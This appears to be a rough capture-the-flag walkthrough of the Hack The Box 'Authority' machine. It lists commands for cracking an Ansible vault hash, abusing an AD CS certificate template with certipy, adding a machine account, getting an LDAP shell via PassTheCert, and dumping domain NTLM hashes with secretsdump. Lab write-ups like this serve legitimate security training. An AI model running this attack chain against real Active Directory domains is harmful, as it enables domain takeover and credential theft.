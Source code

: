 we get main.yml
generate new file with hash
cat value.yml
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531

ansible2john value.yml > main.hash
![[Pasted image 20250218162538.png]]
!@#$%^&*
![[Pasted image 20250218162606.png]]
pWm_@dm!N_!23

we logining there https://authority.htb:8443/pwm/private/config/manager?
![[Pasted image 20250218163938.png]]
![[Pasted image 20250218190742.png]]

![[Pasted image 20250218190713.png]]
lDaP_1n_th3_cle4r!

svs_ldap member of
![[Pasted image 20250218192723.png]]
certipy-ad find -u svc_ldap@authority.htb -p lDaP_1n_th3_cle4r! -vulnerable -enabled
![[Pasted image 20250218192735.png]]
we need a computer account. We can confirm quickly that the
MachineAccountQuota is set to the default value of 10 , so we should have no problem adding a computer account.

netexec ldap 10.10.11.222 -M maq -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
![[Pasted image 20250219124817.png]]


we now add a computer account using addcomputer.py from Impacket
python3 addcomputer.py 'authority.htb/svc_ldap' -method LDAPS -computer-name 'TEST01' -computer-pass 'P@S!@#_DP@ssw0rd!' -dc-ip 10.10.11.222
![[Pasted image 20250218195617.png]]

certipy-ad req -username TEST01$ -password 'P@S!@#_DP@ssw0rd!' -ca AUTHORITY-CA -template CorpVPN -upn administrator@authority.htb -dc-ip 10.10.11.222 -debug
[-] Got error while trying to request TGT: Kerberos SessionError:
KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

We can use PassTheCert app 
certipy-ad cert -pfx administrator.pfx -nocert -o administrator.key

certipy-ad cert -pfx administrator.pfx -nokey -o administrator.crt

python3 ./Python/passthecert.py -dc-ip 10.10.11.222 -crt administrator.crt -key administrator.key -domain authority.htb -port 636 -action ldap-shell -delegate-to 'AUTHORITY$' -delegate-from 'Test01$'
add_user_to_group svc_ldap administrators
we get root
![[Pasted image 20250221105203.png]]



Xsecond method not working X
python3 ./Python/passthecert.py -dc-ip 10.10.11.222 -crt administrator.crt -key administrator.key -domain authority.htb -port 636 -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'Test01$'

impacket-getST -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator 'authority.htb/TEST01$:P@S!@#_DP@ssw0rd!'
export KRB5CCNAME=Administrator.ccache

impacket-secretsdump -k -no-pass authority.htb/Administrator@authority.authority.htb -just-dc-ntlm
